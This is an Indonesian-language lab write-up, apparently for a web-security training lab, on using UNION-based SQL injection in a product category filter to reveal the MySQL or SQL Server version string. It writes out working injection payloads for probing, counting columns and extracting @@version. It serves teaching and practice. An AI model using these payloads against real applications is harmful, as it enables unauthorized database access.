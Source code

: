 # SQL Injection Attack: Querying the Database Type and Version on MySQL and Microsoft

Lab ini berisi kerentanannya dalam SQL injection pada filter kategori produk. Anda dapat menggunakan serangan UNION untuk mendapatkan hasil dari query yang disuntikkan.

Untuk menyelesaikan lab ini, tampilkan string versi database dengan memastikan database mengembalikan string: '8.0.32-0ubuntu0.20.04.2'.

---

### **Langkah-langkah Melakukan Serangan**

#### **Langkah 1: Analisis Struktur Query**
Dengan menyuntikkan payload berikut:
```
/filter?category=Gifts'--
```
Aplikasi kemungkinan besar akan menjalankan query seperti ini:
```sql
SELECT product_name, description 
FROM products 
WHERE category = 'Gifts';
```
Query ini mengembalikan dua kolom: `product_name` dan `description`.

#### **Langkah 2: Tentukan Jumlah Kolom**
Untuk mengetahui jumlah kolom dalam query asli, suntikkan:
```
/filter?category=Gifts'+union+all+select+NULL,NULL--+
```
Jika tidak ada kesalahan, query tersebut memiliki dua kolom.

#### **Langkah 3: Ekstrak Versi Database**
Untuk mendapatkan versi database yang sesuai, kita dapat menggunakan perintah SQL yang tepat. Di MySQL dan Microsoft SQL Server, string versi dapat diekstrak menggunakan query berikut:
```sql
SELECT @@version;
```
Suntikkan payload berikut:
```
/filter?category=Gifts'+union+all+select+NULL,@@version--+
```

#### **Langkah 4: Validasi Versi Database**
Jika server MySQL mengembalikan string versi yang sesuai, seperti:
```
8.0.32-0ubuntu0.20.04.2
```

---

### **Payload yang Valid**

#### **Payload Uji Awal**:
- Menampilkan 4 item di kategori "Gifts":
  ```
  /filter?category=Gifts'--
  ```

#### **Tentang Penyusunan Kolom**:
- Tentukan jumlah kolom:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL--+
  ```

#### **Menyuntikkan Query Versi Database**:
- Ambil versi database:
  ```
  /filter?category=Gifts'+union+all+select+NULL,@@version--+
  ```

---

### **Referensi**

- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Ilustrasi**

#### **Tampilan Awal (Produk dan Deskripsi)**:
![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/1.png)
